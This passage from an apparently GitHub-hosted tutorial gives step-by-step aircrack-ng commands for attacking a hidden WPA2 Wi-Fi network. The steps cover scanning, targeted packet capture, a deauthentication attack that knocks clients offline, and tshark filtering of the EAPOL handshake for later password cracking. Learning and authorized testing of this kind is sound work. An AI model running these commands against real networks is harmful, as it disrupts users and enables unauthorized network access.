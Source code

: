   <details closed><summary><b>Output</b></summary></details>

2. **Scan in Monitor Mode**:
   ```bash
   sudo airodump-ng wlo1
   ```
   - **Expected Output**: A list of networks with their BSSIDs and channels.
   - **What to Look For**: Match the BSSID and channel of the hidden network from the previous step.

   <details closed><summary><b>Output</b></summary></details>

3. **Optional**: To reveal the SSID of the hidden network, use:
   ```bash
   sudo airodump-ng --essid '' wlo1
   ```

   <details closed><summary><b>Output</b></summary></details>

### Step 2: Capture Packets for the Hidden Network

Once the BSSID and channel are identified, capture packets for the hidden network:

```bash
sudo airodump-ng -w output_file.pcap -c <channel> --bssid <BSSID> wlo1
```

- **Expected Output**: A `.pcap` file containing packets from the hidden network.
- **What to Look For**: Ensure the capture includes EAPOL packets for handshake analysis.

<details closed><summary><b>Output</b></summary></details>

### Step 3: Perform a Deauthentication Attack

While running `airodump-ng` to capture packets, execute a deauthentication attack to force the client to disconnect and reconnect. This will trigger the WPA2 handshake, which can then be captured.

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <Client_MAC> wlo1
```

- **Expected Behavior**: The client will be disconnected from the network and will attempt to reconnect, triggering the WPA2 handshake.
- **What to Look For**: Ensure the deauthentication packets are sent successfully.

<details closed><summary><b>Output</b></summary></details>

### Step 4: Capture and Process the Handshake

Once the `.pcap` file is captured, it needs to be filtered and cleaned to ensure it contains only the relevant handshake packets. This step is crucial for successful handshake verification and password cracking.

#### 4.1 Filter the Capture

Use `tshark` to extract only the relevant packets (EAPOL frames) from the raw `.pcap` file:

```bash
tshark -r file.pcap -Y "eapol" -w filtered_capture.pcap
```
